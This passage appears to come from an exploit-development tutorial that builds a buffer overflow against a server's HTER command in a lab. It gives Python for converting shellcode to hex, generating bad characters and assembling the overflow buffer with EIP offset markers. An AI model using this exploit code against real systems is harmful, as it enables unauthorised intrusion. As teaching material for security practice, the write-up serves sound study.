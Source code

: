 It is also easy to turn that ascii hex string into bytes:

```bash
>>> test.hex().encode("utf-8")
b'41'
```

Put together this converter function allows us to convert our shellcode:

```python
def bytes_to_hexbytestring(b):
    hexstring = b.hex()
    bytestring = hexstring.encode("utf-8")
    return bytestring

a = b'\x90\x90\x90\x90'
b = bytes_to_hexbytestring(a)

print(a)
# b'\x90\x90\x90\x90'

print(b)
# b'90909090'
```

## Bad Characters

We have to customize the bad char generator a bit for this.

```python
badchars = [ 0x00, 0x0a ] # found badchars to exclude from the test
badstring_ascii = ""
badstring = b""
for x in range(1,256):
    if(x not in badchars):
        badstring += bytes([x])
        badstring_ascii += bytes([x]).hex() # hex() returns a string

badstring_converted = badstring_ascii.encode() # turn string into byte string
```

The `badstring` content we will write to a file like always. The `badstring_converted` we will actually send to the target.

Like before, I transfered the `badchars.bin` file via samba to the Windows target machine.

```python
# write generated badchars to file for mona
f = open('/srv/samba/protected/badchars.bin', 'wb')
f.write(badstring)
f.close()

buf = b""
buf += b"HTER "
buf += b"f"
buf += b"41" * 1020 # A
buf += b"42" * 4 # B
buf += b"43" * 4 # C
buf += badstring_converted
buf += b"44" * (size - int(len(buf) / 2) - int( len(badstring_converted) / 2) ) # D
buf += b"\n"
```
